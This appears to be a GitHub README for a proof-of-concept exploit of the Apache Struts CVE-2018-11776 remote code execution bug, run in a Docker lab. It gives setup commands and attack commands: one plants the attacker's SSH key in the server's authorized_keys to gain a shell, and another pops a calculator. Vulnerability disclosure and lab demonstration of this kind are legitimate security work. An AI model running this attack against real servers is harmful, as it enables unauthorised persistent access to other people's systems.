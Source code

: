 # Remote code execution in Apache Struts (CVE-2018-11776)

This directory contains a proof-of-concept exploit for a remote code execution vulnerability in [Apache Struts](https://struts.apache.org/). The vulnerability was fixed in versions 2.3.35 and 2.5.17.

To demonstrate the PoC in a safe environment, we will use two docker containers connected by a docker network bridge to simulate two separate computers: the first is the Struts server and the second is the attacker's computer. The Struts server uses Struts version 2.5.16, which contains the vulnerability.

We have tried to make the `Dockerfile`'s for the server and attacker as simple as possible, to make it clear that we have used vanilla [Ubuntu 18.04](http://releases.ubuntu.com/18.04/) with no unusual packages installed.

We have created two versions of the PoC. The first version enables the attacker to get a shell on the server. The PoC is a little simplistic because it assumes that the server has its ssh port 22 exposed to the public internet. A more realistic attack would probably involve getting the server to connect out to a webserver controlled by the attacker. It would be straightforward to modify the PoC to do that. The second version of the PoC pops a calculator.

## Network setup

Create a docker network bridge, to simulate a network with two separate computers.

```
docker network create -d bridge --subnet 172.16.0.0/16 struts-demo-network
```

## Struts server setup

Build the docker image:

```
cd struts-server
docker build . -t struts-server --build-arg UID=`id -u`
```

Start the container:

```
docker run --rm --network struts-demo-network --ip=172.16.0.10 -h struts-server --publish 8080:8080 -e DISPLAY=$DISPLAY -v /tmp/.X11-unix:/tmp/.X11-unix -i -t struts-server
```

Note: the `--publish`, `-e`, and '-v' command line arguments are optional. The `--publish` argument exposes port 8080 so that we can open the Struts showcase app in a web-browser. The `-e` and `-v` arguments enable the container to access X11, which is necessary for popping a calculator.

Inside the container, start Struts and sshd. The reason for starting sshd is that we are going to use it to get a shell on the Struts server. We think it is realistic for sshd to be running because it is very widely used by system administrators for remote access.

```
./apache-tomcat-9.0.12/bin/catalina.sh start
sudo service ssh start  # sudo password is "x"
```

At this point, you can check that Struts is running by visiting [http://127.0.0.1:8080/struts2-showcase](http://127.0.0.1:8080/struts2-showcase) in your browser. (We exposed port 8080 on the docker container.)

## Attacker setup

Build the docker image:

```
cd struts-attacker
docker build . -t struts-attacker
```

Start the container:

```
docker run --rm --network struts-demo-network --ip=172.16.0.11 -h struts-attacker -i -t struts-attacker
```

Inside the container, use `copykey` to copy the attacker's ssh key into the server's `authorized_keys` file. Then use `ssh` to login.

```
./src/copykey http://172.16.0.10:8080/struts2-showcase
ssh victim@172.16.0.10
```

We have a shell!

Alternatively, you can start a calculator like this:

```
./src/startcalc http://172.16.0.10:8080/struts2-showcase
```
